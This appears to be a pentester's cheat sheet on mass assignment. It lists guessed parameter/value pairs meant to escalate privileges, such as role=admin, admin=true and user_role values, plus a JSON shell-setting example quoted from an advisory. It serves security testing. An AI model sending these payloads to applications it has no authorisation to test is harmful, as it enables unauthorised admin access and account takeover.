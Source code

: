 # MassAssignment (Or Autobinding) 

Best results is to investigate all the pages of the app looking for patterns in parameter names. For example, if other fields are user_name and user_email, then possible candidates for Mass Assignment might be user_role and user_group.
Look at documentation and any other 

These are common attributes for user accounts useful in privilege escalation 
enabled=true
processed=true
approved=true
approval=true
user_approval=true
onboard=true
user_onboarded=true
user_onboarded=1
enabled=1
status=enabled
user_status=enabled

These are parameter name value pairs to attempt privilege escalation via mass assignment

role=admin
role=site_admin
role=site_edit
group=admins
group=administrators
groups=[admin,user_management,editor,
roles might be an array:
roles=[add_user,delete_user, edit_user,create_user,view_user]
role=0
..
role=9

admin=true

admin=1

user_role=0

user_role=9

user_role=admin

user_role=administrator

user_role=moderator

user_role=

administrator=true


If JSON is used these are extra params that have been found in vulnerability reports:
"shell":"/bin/bash"

Exampe from https://www.silver-peak.com/sites/default/files/advisory/silver_peak_security_advisory_mass_assignment_vulnerability.pdf
{"users":{"basic":{"self":"basic","enable":true,"gid":0,"password":"[SNIP]","
shell":"/bin/bash"}},[SNIP
other users]}}

